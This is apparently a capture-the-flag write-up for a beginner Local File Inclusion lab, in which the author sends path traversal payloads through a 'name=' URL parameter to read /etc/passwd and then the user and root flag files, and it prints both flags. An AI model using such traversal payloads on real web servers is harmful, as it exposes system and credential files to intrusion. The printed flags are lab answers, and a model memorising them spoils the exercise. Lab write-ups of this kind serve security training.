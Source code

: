 <div align="justify">
  
# **Inclusion**

## **A beginner level LFI Challenge**

### What is Local File Inclusion (LFI)?
Basically, A Local File Inclusion
> Allows an attacker to read (and sometimes execute) files on the victim machine. This can be very dangerous because if the web server is misconfigured and running with high privileges, the attacker may gain access to sensitive information. If the attacker is able to place code on the web server through other means, then they may be able to execute arbitrary commands.
<p align="center"> <a href="https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/"> offensive-security.com </p>

### **Solution**

Deploy the machine.
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154020246-97d2f0d3-e36d-49cc-80a4-e91b7dac7e7b.png"
</p>
  
We can see that this is a normal blog webpage. At first, I explore the website and look for parameters. If we click the "View details" buttons we can now have the parameter "name=".
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154020698-fc3cec40-b9f1-4ffa-a623-85361db042ad.png"
</p>
  
Now, we can insert our LFI payload to "name=" parameter to gain sensitive information on the website. I use burpsuite to capture the request and edit the parameter value, use the basic payload "../../../../../../../etc/passwd"
```
http://10.10.66.111/article?name=../../../../../../../etc/passwd
```
to access the passwd file, and it shows some accounts that caught my attention.
  
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022207-484a234c-d15a-473d-af62-453092358c8c.png"
</p>
  
We will focus on the falconfeast and root account because I assume that the flag is stored in their directory.
So I come up with the idea that the user.txt is stored in /home/falconfeast
 
```
http://10.10.66.111/article?name=../../../../../../../home/falconfeast/user.txt
```
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022694-57ec60e8-c9b0-434f-8a97-208be7352511.png"
</p>
  
It shows random numbers, and it is the user flag!!!

Now, for the root flag, I assume that the file is in /root
  
```
http://10.10.66.111/article?name=../../../../../../../root/root.txt
```
<p align="center">
  <img src="https://user-images.githubusercontent.com/93600181/154022707-70872241-6083-497f-aafa-d4f00ee07b1c.png"
</p>
  
Again, it shows random numbers and it is the root flag!!!
  
### **Flag**

user flag
```
60989655118397345799
```
root flag
```
42964104845495153909
```
  
---
  
</div>
